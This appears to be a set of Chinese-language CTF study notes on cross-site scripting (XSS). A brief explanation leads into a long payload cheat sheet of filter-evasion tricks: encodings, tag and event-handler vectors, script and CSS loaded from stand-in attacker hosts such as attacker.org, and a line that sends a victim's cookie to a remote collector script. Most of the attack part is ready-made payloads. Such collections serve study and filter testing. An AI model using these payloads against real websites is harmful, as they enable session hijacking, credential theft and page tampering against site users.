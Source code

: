 #                                  XSS

* ## XSS定义

跨站脚本（Cross-site scripting，XSS）是对网页代码（包含HTML以及前端脚本）有漏洞的网站进行的攻击，是代码注入的一种。它允许恶意代码被注入到网页上，其他使用者在访问网页时就会受
到影响。攻击成功后，攻击者可能得 到更高的权限、私密网页内容、会话和cookie等各种内容。 

> 提示
>
> > XSS属于客户端攻击，受害者最终是用户。但不要忘记网站管理人员也属于用户之一，管理员拥有着太多权限，一般管理员都可以对网站进行文件管理、数据管理等操作，攻击者就有可能靠管理员身份作为跳板实施攻击。

* ## 原理

  XSS攻击是在网页中嵌入客户端恶意脚本代码，这些恶意代码一般使用JavaScript语言编写JavaScript可以用来获取用户的Cookie、改变网页内容、URL调转，存在XSS漏洞的网站，可以盗取用户Cookie、黑掉页面、导航到恶意网站，攻击者仅仅需要向web页面注入JavaScript代码

* ## XSS常见出现漏洞的地方

  1. 数据交互的地方
     - get、post、cookies、headers
     - 反馈与浏览
     - 富文本编辑器
     - 各类标签插入和自定义
  2. 数据输出的地方
     - 用户资料
     - 关键词、标签、说明
     - 文件上传

* ## 危害

  - 网络钓鱼，包括获取各类用户账号；
  - 窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作；
  - 劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等；
  - 强制弹出广告页面、刷流量等；
  - 网页挂马；
  - 进行恶意操作，如任意篡改页面信息、删除文章等；
  - 进行大量的客户端攻击，如ddos等；
  - 获取客户端信息，如用户的浏览历史、真实ip、开放端口等；
  - 控制受害者机器向其他网站发起攻击；
  - 结合其他漏洞，如csrf,实施进一步危害；
  - 提升用户权限，包括进一步渗透网站；
  - 传播跨站脚本蠕虫等

* ## 分类

  1. 反射型（不储存于服务器，非持久）
  2. 储存性（粗存于服务器，持久性）
  3. DOM型（改变DOM结构）（DOM本身代表文档，给予DOM型的XSS不需要与服务器交互，只发生在客户端处理数据阶段）![](https://github.com/lrq12349306/ctf/blob/main/picture/xss_type_DOM.png)

- ## 漏洞利用

 1.盗取cookie： 

```
<script>alert(document.cookie)</script>
```

 2.构造页面跳转： 

```
<script>location='https://www.hacker.com'</script>
```

 3.构造获取cookie并发送到远程主机： 

```javascript
<script>document.location='http://127.0.0.1/test/cookie.phpcookie='+document.cookie</script>
```

- ### 常见注入点

1、输入框

2、留言板

3、URL中可传参数的变量

* ### 触发JS解析器的方式：

  1. 直接嵌入<script>代码块。
2. 通过src属性加载代码。
  3. 行内样式
  4. 各种HTML CSS参数支持JavaScript：URL伪协议触发调用。
  5. 事件处理器，如：onload，onerror，onclick等。
  6. 定时器，timer（setTimeout，setInterval）
  7. eval(...)调用

* ## 过滤与绕过

  ### 1. 闭合引号、标签

  ### 2. 关键字、符号过滤

- 反引号代替圆括号

- 换行、空格、Tab绕过正则

- <!--不仅可以用-->,也可以用--!>闭合

- //可以用换行来绕过

- <!--和-->都可以在html的script标签里单独使用进行单行注释

- ſ 符号转换为大写后正好为大写字母 S

- 可以用 %0a 代替空格进行绕过

- 用 / 代替空格

- 不闭合标签
  -   <  代替  >  闭合标签
  ```javascript
  <iframe src=http://xss.rocks/scriptlet.html <
  ```
  - firefox 自动补全标签
  ```javascript
  <SCRIPT SRC=http://xss.rocks/xss.js?< B >
  ```
  - 被限制长度，浏览器可识别 .j 

    ```javascript
    <SCRIPT SRC=//xss.rocks/.j>
    ```

  -  IE中用以下符号代替>闭合标签

  ```javascript
  /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
  ```

- 额外的无关括号

  ```javascript
  <<SCRIPT>alert("XSS");//\<</SCRIPT>
  ```

- 大小写

- Non-alpha-non-digit XSS（⑧懂）

  ```javascript
  <SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
  ```

  ```javascript
  <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
  ```

- ”覆盖变量“

  ```javascript
  \";alert('XSS');//
  ```

  > 效果：
  >
  > ```javascript
  > <SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
  > ```

- 双写、拼凑

- 当括号被过滤的时候可以使用throw来绕过

  > ```javascript
  > <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
  > ```

- 如果是html标签中，可以不用引号；如果是在js中，可以用反引号代替单双引号。

- 字符拼接
  
> 利用eval
> ```javascript
> <img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
> ```
>
> 利用top
>
> ```
> <script>top["al"+"ert"](`xss`);</script>
> ```

- 干扰字符（任意位置插入null字符）
> ```javascript
  ><im[%00]g onerror=alert(xss) src=a>
> ```
- html标签中用`//`可以代替`http://`

  ```javascript
  <img src="x" onerror=document.location=`//www.baidu.com`>
  ```

- 使用`\\`

  ```javascript
  但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
  ```

- 使用中文逗号代替英文逗号

  > 如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号 

  ```javascript
  <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
  ```

- 其它字符混淆

> 有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们> > 就可以使用其它字符去混淆我们注入的代码了
> 下面举几个简单的例子
>
> > 可利用注释、标签的优先级等
```javascript
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```
### 3. 编码绕过

* url编码，JavaScript编码  （在src等属性标签下可用，”JavaScript“本身不能编码）
  
  |     进制      |       格式       |
  | :-----------: | :--------------: |
  |  ascll(默认)  |       %00        |
  |    八进制     | \0(三位不足补零) |
  |    十六进     |       \x00       |
  | unicode编码制 |      \u0000      |
  |    base64     |       如下       |
  
  ```javascript
  <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
  ```
  
* HTML实体（对大小写敏感，**分号没必要，最大7位填充，0可忽略**）
  
    [html实体码转码](https://www.qqxiuzi.cn/bianma/zifushiti.php "实体码，记得预留字符转命名实体")
  
    ![](https://github.com/lrq12349306/ctf/blob/main/picture/xss_html_decode.png)

  

* 宽字节绕过

* 复合编码

* String.fromCharCode编码

      如alert编码为：
      
      ```javascript
      String.fromCharCode(97,108,101,114,116)
      ```

* JavaScript转义（在src等属性标签下可用，”JavaScript“本身不能编码）

    ```javascript
  <a href=javascript:eval(alert('xss'))>aa</a>
  ```
  
* java alert encode**(编码最多是7位填充，包括)**

  ```javascript
  <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  ```


- expression属性

  ```
  <img style="xss:expression(alert('xss''))"> // IE7以下
  <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
  <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
  ```

- US-ASCII Encoding

  > US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII  encoding with 7 bits instead of 8. This XSS may bypass many content  filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web  application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits  in US-ASCII encoding.

  ```
  ¼script¾alert(¢XSS¢)¼/script¾
  ```



#### 4. 外部标签

  ---> /svg/属于外部标签，是一种特殊的标签，它使用XML格式定义图像，XML支持在标签内解析HTML实体字符，所以在XML中可以执行。
```javascript
<svg><script>alert(&#40;'1'&#41;</script>)
```

##### 浏览器解码顺序

html解码 ---> JavaScript解码 ---> url解码 ---> 发送http请求

![](https://github.com/lrq12349306/ctf/blob/main/picture/xss_html_DecodeOrder.png)


### 5. 使用IP

  **1.十进制IP**

```javascript
<img src="x" onerror=document.location=`http://2130706433/`>
```

  **2.八进制IP**

```javascript
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

  **3.hex**

```javascript
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```



#### 6. CSS import

IE 浏览器支持在 CSS 中扩展 JavaScript，这种技术称为动态特性(dynamic properties)。允许攻击者加载一个外部 CSS 样式表是相当危险的，因为攻击者现在可以在原始页面中执行 JavaScript 代码了。
 ```javascript
 <style>
 @import url("http://attacker.org/malicious.css");
 </style>
 ```
 **malicious.css：**
```javascript
 body {
   color: expression(alert('XSS'));
 }
```
**为了绕过对 @import 的过滤，可以在 CSS 中使用反斜杠进行绕过：**

 ```javascript
 <style>
 @imp\ort url("http://attacker.org/malicious.css");
 </style>
 ```
 IE 浏览器会接受反斜杠，但是我们绕过了过滤器。



### 7. JavaScript伪协议

**--->/a/标签**

```javascript
<a href="javascript:alert(`xss`);">xss</a>
```

**--->/iframe/标签**

```javascript
<iframe src=javascript:alert('xss');></iframe>
```

**--->/img/标签**

```javascript
<img src=javascript:alert('xss')>//IE7以下
```

**--->/form/标签**


```javascript
<form action="Javascript:alert(1)"><input type=submit>
```



###  **8. 利用link远程包含js文件**

> PS：在无CSP的情况下才可以

  ```
<link rel=import href="http://127.0.0.1/1.js">
  ```

> rename .js

```
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```



### 9. 其它

**--->UTF-7 Encoding**

> If the page that the XSS resides on doesn’t provide a page charset  header, or any browser that is set to UTF-7 encoding can be exploited  with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser  is set to auto-detect and there is no overriding content-types on the  page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding  type which is why it is marked as completely unsupported. Watchfire  found this hole in Google’s custom 404 script.:

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

**--->Cookie Manipulation**

> Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other  examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who  visits the page. With these two scenarios combined you can modify the  victim’s cookie which will be displayed back to them as JavaScript (you  can also use this to log people out or change their user states, get  them to log in as you, etc…):

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

**--->PHP**

> Requires PHP to be installed on the server to use this XSS vector.  Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```javascript
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

**--->EMBED a Flash Movie That Contains XSS**

> Click here for a demo: ~~http://ha.ckers.org/xss.swf~~

```
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

> firefox

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

**--->Downlevel-Hidden Block**

> Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be  safe and therefore does not need to be removed, which allows our Cross  Site Scripting vector. Or the system could add comment tags around  something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

**--->background属性**

```javascript
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```

**--->XSS Locator**

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```javascript
<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
```

**--->Malformed IMG Tags**

```javascript
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

**--->Livescript (older versions of Netscape only)**

```javascript
<IMG SRC="livescript:[code]">
```

**--->VBscript in an Image**

```javascript
<IMG SRC='vbscript:msgbox("XSS")'>
```

**--->List-style-image**

> Fairly esoteric issue dealing with embedding images for bulleted  lists. This will only work in the **IE** rendering engine because of the  JavaScript directive. Not a particularly useful cross site scripting  vector:

```javascript
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

**--->ECMAScript 6**

```javascript
Set.constructor`alert\x28document.domain\x29
```

**--->BGSOUND**

```javascript
<BGSOUND SRC="javascript:alert('XSS');">
```

**--->& JavaScript includes**

```javascript
<BR SIZE="&{alert('XSS')}">
```

**--->STYLE sheet**

```javascript
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### 10. 各种标签

####    **--->/script/标签：**

```javascript
<script>alert(/1/)</script>
<script>prompt(1)</script> 
<script>confirm(1)</script>
<script src="http://attacker.org/malicious.js"></script>
<script src=data:text/javascript,alert(1)></script>
<script>setTimeout(alert(1),0)</script>
```
####    **--->/a/标签：**

```javascript
<a href="javascript:alert(1)">点击触发</a>
<a href="http://www.hacker.com">点击触发</a>
```

####   **--->/img/**

  ```javascript
  <img src=1 onerror=alert("xss");>
  ```

> Default SRC Tag to Get Past Filters that Check SRC Domain
>
> ```javascript
> <IMG SRC=# onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it Empty
>
> ```javascript
> <IMG SRC= onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it out Entirely
>
> ```javascript
> <IMG onmouseover="alert('xxs')">
> ```
>
> IMG Lowsre
>
> ```javascript
> <IMG LOWSRC="javascript:alert('XSS')">
> ```
>
> IMG Dynsrc
>
> ```javascript
> <IMG DYNSRC="javascript:alert('XSS')">
> ```
>
> On Error Alert
>
> ```javascript
> <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
> ```

#### **--->/input/**

  ```
  <input onfocus="alert('xss');">
  竞争焦点，从而触发onblur事件
  <input onblur=alert("xss") autofocus><input autofocus>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
  ```

#### **--->/details/**


```
  <details ontoggle="alert('xss');">
  使用open属性触发ontoggle事件，无需用户去触发
  <details open ontoggle="alert('xss');">
```

#### **--->/svg/**


  ```
  <svg onload=alert("xss");>
  ```

#### **--->/select/**

  ```
  <select onfocus=alert(1)></select>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
  <select onfocus=alert(1) autofocus>
  ```

#### **--->/iframe/**

  ```
  <iframe onload=alert("xss");></iframe>
  ```

#### **--->/video/**

  ```
  <video><source onerror="alert(1)">
  ```

#### **--->/audio/**

  ```
  <audio src=x  onerror=alert("xss");>
  ```

#### **--->/body/**

  ```
  <body/onload=alert("xss");>
  ```

> 利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

  ```
  <body
  onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
  ```

#### **--->/textarea/**

  ```
  <textarea onfocus=alert("xss"); autofocus>
  ```

#### **--->/keygen/**

  ```
  <keygen autofocus onfocus=alert(1)> //仅限火狐
  ```

#### **--->/marquee/**

  ```
  <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
  ```

#### **--->/isindex/**

  ```
  <isindex type=image src=1 onerror=alert("xss")>//仅限于IE
  ```

#### **--->/style/(限制较多)**

**Remote style sheet**

> Using something as simple as a remote style sheet you can include  your XSS as the style parameter can be redefined using an embedded  expression. This only works in IE and Netscape 8.1+ in IE rendering  engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet  examples they use the body tag, so it won’t work unless there is some  content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank  page:

```
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

**Remote style sheet part 2**

> This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is  useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real  world:

```
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

**Remote style sheet part 3**

> This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1  spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no  different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

**Remote style sheet part 4**

> This only works in Gecko rendering engines and works by binding an  XUL file to the parent page. I think the irony here is that Netscape  assumes that Gecko is safer and therefor is vulnerable to this for the  vast majority of sites:

```
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

**STYLE Tags with Broken-up JavaScript for XSS**

> This XSS at times sends IE into an infinite loop of alerts:

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

**STYLE Attribute using a Comment to Break-up Expression**

> Created by Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

**IMG STYLE with Expression**

> This is really a hybrid of the above XSS vectors, but it really does  show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

**STYLE Tag (Older versions of Netscape only)**

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

**STYLE Tag using Background-image**

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

**STYLE Tag using Background**

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>` `<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

**Anonymous HTML with STYLE Attribute**

IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an  open angle bracket and a letter:

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

#### **--->/META/**

> The odd thing about meta refresh is that it doesn’t send a referrer  in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

**META using Data**

> Directive URL scheme. This is nice because it also doesn’t have  anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more  details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

**META with Additional URL Parameter**

> If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

#### **--->/TD/**

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

#### **--->/DIV/**

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### **--->/BASE/**

```
<BASE HREF="javascript:alert('XSS');//">
```

#### **--->/OBJECT/**

> If they allow objects, you can also inject virus payloads to infect  the users, etc. and same with the APPLET tag). The linked file is  actually an HTML file that can contain your XSS:

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

#### **--->/XML/**

> This XSS attack works only in IE and Netscape 8.1 in IE rendering  engine mode) - vector found by Sec Consult while auditing Yahoo:

```
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

> 例：
>
> > ```javascript
> > <script>alert(navigator.userAgent)<script> <script>alert(88199)</script> <script>confirm(88199)</script> <script>prompt(88199)</script> <script>\u0061\u006C\u0065\u0072\u0074(88199)</script> <script>+alert(88199)</script> <script>alert(/88199/)</script> 
> > <script src=data:text/javascript,alert(88199)></script> 
> > <script src=&#100&#97&#116&#97:text/javascript,alert(88199)></script> <script>alert(String.fromCharCode(49,49))</script> <script>alert(/88199/.source)</script> <script>setTimeout(alert(88199),0)</script> 
> > <script>document['write'](88199);</script> 
> > <anytag οnmοuseοver=alert(15)>M 
> > <anytag οnclick=alert(16)>M 
> > <a οnmοuseοver=alert(17)>M 
> > <a οnclick=alert(18)>M 
> > <a href=javascript:alert(19)>M 
> > <button/οnclick=alert(20)>M 
> > <form><button formaction=javascript&colon;alert(21)>M <form/action=javascript:alert(22)><input/type=submit> 
> > <form οnsubmit=alert(23)><button>M 
> > <form οnsubmit=alert(23)><button>M 
> > <img src=x οnerrοr=alert(24)> 29 
> > <body/οnlοad=alert(25)> 
> > <body οnscrοll=alert(26)><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <input autofocus> <iframe src="http://0x.lv/xss.swf"></iframe> 
> > <iframe/οnlοad=alert(document.domain)></iframe> 
> > <IFRAME SRC="javascript:alert(29);"></IFRAME> 
> > <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2830%29%3C%2%73%63%72%69%70%74%3E"> 
> > <object data=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+></object> 
> > <object data="javascript:alert(document.domain)"> 
> > <marquee onstart=alert(30)></marquee> 
> > <isindex type=image src=1 οnerrοr=alert(31)> 
> > <isindex action=javascript:alert(32) type=image> 
> > <input οnfοcus=alert(33) autofocus> 
> > <input οnblur=alert(34) autofocus><input autofocus>
> >     
> > //关键字和编码结合
> > <IMG SRC="jav&#x0A;ascript:alert('XSS');"> //换行
> > <IMG SRC="jav&#x0D;ascript:alert('XSS');"> //空格
> > <IMG SRC="jav&#x09;ascript:alert('XSS');"> //Tab
> > ```

### 11. Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`

###  **常用事件：** 


  onclick: 点击触发
  ```
  （<img src=x onclick=alert(1)>）
  ```

  onerror: 当 src 加载不出来时触发
  ```
  （<img src=x onerror=alert(1)>）
  ```

  onload: 当 src 加载完毕触发
  ```
  （<img src=x onload=alert(1)>）
  ```

  onmouseover：鼠标移动到图片后触发
  ```
  （<img src=x onmouseover=alert(1)>）
  ```

  onmousemove: 鼠标移到指定元素触发
  ```
  （<img src=x onmousemove=alert(1) >）
  ```

  onfocus: 当input 输入框获取焦点时触发
  ```
  （<input onfocus=javascript:alert(1) autofocus>）
  ```



### [事件列表](http://help.dottoro.com/ljfvvdnm.php)

1. `FSCommand()` (attacker can use this when executed from within an embedded Flash object)
2. `onAbort()` (when user aborts the loading of an image)
3. `onActivate()` (when object is set as the active element)
4. `onAfterPrint()` (activates after user prints or previews print job)
5. `onAfterUpdate()` (activates on data object after updating data in the source object)
6. `onBeforeActivate()` (fires before the object is set as the active element)
7. `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
8. `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
9. `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a  UI-activated state or when an editable container object is control  selected)
11. `onBeforePaste()` (user needs to be tricked into pasting or be forced into it using the `execCommand("Paste")` function)
12. `onBeforePrint()` (user would need to be tricked into printing or attacker could use the `print()` or `execCommand("Print")` function).
13. `onBeforeUnload()` (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
14. `onBeforeUpdate()` (activates on data object before updating data in the source object)
15. `onBegin()` (the onbegin event fires immediately when the element’s timeline begins)
16. `onBlur()` (in the case where another popup is loaded and window looses focus)
17. `onBounce()` (fires when the behavior property of the marquee object is set to  “alternate” and the contents of the marquee reach one side of the  window)
18. `onCellChange()` (fires when data changes in the data provider)
19. `onChange()` (select, text, or TEXTAREA field loses focus and its value has been modified)
20. `onClick()` (someone clicks on a form)
21. `onContextMenu()` (user would need to right click on attack area)
22. `onControlSelect()` (fires when the user is about to make a control selection of the object)
23. `onCopy()` (user needs to copy something or it can be exploited using the `execCommand("Copy")` command)
24. `onCut()` (user needs to copy something or it can be exploited using the `execCommand("Cut")` command)
25. `onDataAvailable()` (user would need to change data in an element, or attacker could perform the same function)
26. `onDataSetChanged()` (fires when the data set exposed by a data source object changes)
27. `onDataSetComplete()` (fires to indicate that all data is available from the data source object)
28. `onDblClick()` (user double-clicks a form element or a link)
29. `onDeactivate()` (fires when the activeElement is changed from the current object to another object in the parent document)
30. `onDrag()` (requires that the user drags an object)
31. `onDragEnd()` (requires that the user drags an object)
32. `onDragLeave()` (requires that the user drags an object off a valid location)
33. `onDragEnter()` (requires that the user drags an object into a valid location)
34. `onDragOver()` (requires that the user drags an object into a valid location)
35. `onDragDrop()` (user drops an object (e.g. file) onto the browser window)
36. `onDragStart()` (occurs when user starts drag operation)
37. `onDrop()` (user drops an object (e.g. file) onto the browser window)
38. `onEnd()` (the onEnd event fires when the timeline ends.
39. `onError()` (loading of a document or image causes an error)
40. `onErrorUpdate()` (fires on a databound object when an error occurs while updating the associated data in the data source object)
41. `onFilterChange()` (fires when a visual filter completes state change)
42. `onFinish()` (attacker can create the exploit when marquee is finished looping)
43. `onFocus()` (attacker executes the attack string when the window gets focus)
44. `onFocusIn()` (attacker executes the attack string when window gets focus)
45. `onFocusOut()` (attacker executes the attack string when window looses focus)
46. `onHashChange()` (fires when the fragment identifier part of the document’s current address changed)
47. `onHelp()` (attacker executes the attack string when users hits F1 while the window is in focus)
48. `onInput()` (the text content of an element is changed through the user interface)
49. `onKeyDown()` (user depresses a key)
50. `onKeyPress()` (user presses or holds down a key)
51. `onKeyUp()` (user releases a key)
52. `onLayoutComplete()` (user would have to print or print preview)
53. `onLoad()` (attacker executes the attack string after the window loads)
54. `onLoseCapture()` (can be exploited by the `releaseCapture()` method)
55. `onMediaComplete()` (When a streaming media file is used, this event could fire before the file starts playing)
56. `onMediaError()` (User opens a page in the browser that contains a media file, and the event fires when there is a problem)
57. `onMessage()` (fire when the document received a message)
58. `onMouseDown()` (the attacker would need to get the user to click on an image)
59. `onMouseEnter()` (cursor moves over an object or area)
60. `onMouseLeave()` (the attacker would need to get the user to mouse over an image or table and then off again)
61. `onMouseMove()` (the attacker would need to get the user to mouse over an image or table)
62. `onMouseOut()` (the attacker would need to get the user to mouse over an image or table and then off again)
63. `onMouseOver()` (cursor moves over an object or area)
64. `onMouseUp()` (the attacker would need to get the user to click on an image)
65. `onMouseWheel()` (the attacker would need to get the user to use their mouse wheel)
66. `onMove()` (user or attacker would move the page)
67. `onMoveEnd()` (user or attacker would move the page)
68. `onMoveStart()` (user or attacker would move the page)
69. `onOffline()` (occurs if the browser is working in online mode and it starts to work offline)
70. `onOnline()` (occurs if the browser is working in offline mode and it starts to work online)
71. `onOutOfSync()` (interrupt the element’s ability to play its media as defined by the timeline)
72. `onPaste()` (user would need to paste or attacker could use the `execCommand("Paste")` function)
